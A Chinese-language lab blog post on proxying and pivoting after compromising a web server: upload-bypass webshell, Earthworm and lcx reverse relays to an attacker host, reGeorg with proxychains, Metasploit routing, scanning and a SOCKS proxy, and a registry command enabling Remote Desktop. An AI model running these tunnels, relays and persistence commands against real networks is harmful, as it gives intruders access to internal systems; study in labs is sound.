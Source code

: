```yaml
---
layout: post
title: "内网代理那些事"
date: 2016-12-10
description: "内网渗透代理"
tag: 渗透测试 
---
```


有时候，经常在穿梭在行行种种的内网环境中，选择一个合适的代理方式十分重要，网上各式各样的代理工具和脚本也很多，本次实验环境尽可能的模拟真实的网络环境。本次实验分为两种情况:1.一种是被入侵的机器，能够反问道攻击机器(模拟现实中，肉鸡可以反弹的情况)。2:另外一种是被入侵的机器无法访问任何外网，只是被一个外网ip出口单纯的映射了一个端口出来。(可以想象一台公网vps机器映射了无数台web虚拟机)
## 实验环境(情况一)
### 攻击机器
kali一台 (10.211.55.3)
### 靶机

O s   | Service      | Ip          | WeakPoint
----- | ------------ | ----------- | -----------
ubuntu|  php,apache  | 172.17.0.2  |   upload  
centos|  discuz      | 172.17.0.4  |   weak password
debian|  tomcat      | 172.17.0.3  |   s2-032

其中第一个服务映射出一个外网端口80，简而言之就是，现在攻击机可以访问http://10.211.55.6/upfile.php ，这是唯一一个可以被kali访问的服务。

上传导致的问题，直接伪造下Content-Type: image/jpeg就可以上传了。
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/25588032-file_1481520064910_eb72.png)
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/97996972-file_1481520314428_1465e.png)
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/70510614-file_1481520610181_eb7a.png)

首先利用reGeorg不成功，很明显由于权限和一些php阉割的原因,socket代理不上。通过自己写的webshell方式代理的话，也只能做一些简单的http协议的事情，很显然不符合我们的需求。
###Earthworm
[下载地址](http://rootkiter.com/EarthWorm/download/ew.zip)
好像长城宽带就下不了，如果下不了的话，请自行翻墙。这里肯定是正向代理的方式。
在webshell上执行
```
/ew -s ssocksd -l 2333
```
然后攻击机proxychains 应用就行了，记得在/etc/proxychains.conf后面加上socket5 10.211.55.6 2333，反正我测试失败了。
### reGeorg
reGeorg使用也很简单，上传一个
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/19757624-file_1481535483786_f279.png)
然后本机
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/22422179-file_1481535602124_26a.png)
调用nmap扫描
```
nmap -sT -Pn -A -sI 192.168.1.101 192.168.1.108
```
只支持tcp和dns协议

攻击机
```
proxychains wget http://172.17.0.4/index.php
```
进一步拓展，reGeorg很方便，基本可以满足我们绝大部分的需求，可是我想充分利用好kali 的msf来渗透怎么办，这时候又无法反弹。
### MSF
正向代理
先生成一个后门

![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/32718743-file_1481542234272_674b.png)

通过菜刀上传到根目录，然后执行一下
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/29369845-file_1481543347496_160ff.png)
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/34845144-file_1481543396810_158c9.png)
很显然一个shell是无法满足我们的要求的，我们要把shell提升到meterpreter
```
sessions -u 5
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/40003229-file_1481544375579_1e40.png)
查看ip
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/16243890-file_1481544578165_e0aa.png)
或者也可以
```
run get_local_subnets
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/92513586-file_1481544921373_b0d2.png)
添加路由
```
route add 172.17.0.2 255.255.0.0 7
```
查看下路由
```
route  print
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/70794383-file_1481544696603_248d.png)
内网扫描搞起，2333
扫存活ip
```
 auxiliary/scanner/ip/ipidseq
```
扫端口
```
use auxiliary/scanner/portscan/tcp 
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/53703064-file_1481545692843_96e2.png)
这里很容易就挂掉
后面就是类似的操作，可以参考文章
[科普：msf内网渗透实例](http://www.91ri.org/5462.html)

开一个sock4代理
先添加路由在用socks4a模块,不过这玩意用着贼卡
```
use auxiliary/server/socks4a
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/54432202-file_1481546334683_1b60.png)
查看jobs
```
jobs
```
### 总结
如果遇到这种流量只进不出的情况，也就是常说的正向代理，那么可以推荐用reGeorg+ proxychains的方式来加载网页或者运行一些python攻击脚本，然后用msf来对内网进行扫描或者域渗透
## 实验环境(情况二)
### 攻击机器
kali一台 (10.211.55.3)
### 靶机

O s   | Service      | Ip          | WeakPoint
----- | ------------ | ----------- | -----------
ubuntu|  php,apache  | 172.17.0.2  |   upload  
centos|  discuz      | 172.17.0.4  |   weak password
debian|  tomcat      | 172.17.0.3  |   s2-032

情况二简而言之就是可以反弹出shell,可以理解成172.17.0.2这台机器可以访问我们攻击机(10.211.55.3)
这个情况就要好很多了，可以用的方法很多. Earthworm,lcx,ssok
### lcx
先找到一台公网ip，说白了就是172.17.0.2可以ping通的机器，这里我们的攻击机是可以被肉鸡ping通的。
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/58321104-file_1481554606059_55cb.png)
kali上
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/29379939-file_1481558631021_106a.png)
肉鸡上
```
/portmap -m 3 -h1 10.211.55.3 -p1 3349 -h2 172.17.0.4 -p2 80
```
我们再访问http://10.211.55.3:3348/forum.php
发现其实就是把172.17.0.4的discuz给映射到攻击的3348端口上来了。
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/51180261-file_1481559043782_d783.png)

### Earthworm
由于Earthworm包含lcx的用法，也可以直接用它来转发
现在kali(10.211.55.3)机器上监听转发
```
/ew_for_linux64 -s lcx_listen -l 1234 -e 8888
```
肉鸡上运行
```
./ew -s lcx_slave -d 10.211.55.3 -e 1234 -f 172.17.0.3 -g 8080
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/84717905-file_1481560699829_6c6f.png)
是一个struts漏洞
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/99909988-file_1481561584244_13369.png)

### MSF
反向代理
先生成一个反弹后门
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/33842844-file_1481562319028_730.png)
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/12498651-file_1481562542743_e05a.png)

msf设置一下
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/68508804-file_1481561925699_7244.png)
反弹成功
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/95784446-file_1481562590545_148e.png)

``REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f``






## 拓展学习
[Shell反弹不出来怎么办呢？](http://www.91ri.org/11722.html)
[tunna 正向代理实现转发](http://lizhaojackson.lofter.com/post/1d50c172_ac7ccbf)
[内网渗透中转发工具总结 - TwoEyes](http://anyun.org/a/jishuguanzhu/wangluoanquan/loudongfenxiang/WooYu/2016/0924/6917.html)

      
